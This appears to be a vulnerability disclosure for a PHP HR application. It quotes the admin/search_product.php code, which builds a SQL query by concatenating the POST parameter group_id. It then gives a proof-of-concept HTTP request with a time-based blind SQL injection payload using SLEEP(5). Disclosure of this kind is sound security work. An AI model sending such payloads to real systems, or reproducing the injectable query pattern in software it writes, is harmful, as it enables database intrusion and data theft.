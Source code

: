 ### Vulnerability file address

`admin/search_product.php` from line 16,The `$_POST['group_id']` parameter is controllable and the `$_POST['group_id']` is not protected from sql injection, line 17 `$statement = $conn->prepare($sql_service1);` ,line 18 `$statement->execute();`,line 18 performs a SQL query, causing SQL injection

```php


<?php
//error_reporting(0);
require_once('../assets/constants/config.php');
require_once('../assets/constants/check-login.php');
require_once('../assets/constants/fetch-my-info.php');
?>

<?php
//include('connect.php');


  if(isset($_POST['group_id']))
  {
       $sql_service1 ="SELECT * FROM tbl_product WHERE group_id  = '".$_POST['group_id']."' AND delete_status='0' GROUP BY pid";
       $statement = $conn->prepare($sql_service1);
        $statement->execute();
            $data['products'] = $statement->fetchAll();
        echo json_encode($data); exit;
  }
?>
```

### POC

```http
POST /CMS/php/_hr_soft/admin/search_product.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

group_id=1' AND (SELECT 5258 FROM (SELECT(SLEEP(5)))ErTg)#
```

### Attack results pictures

![image-20250130161155882](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301611966.png)
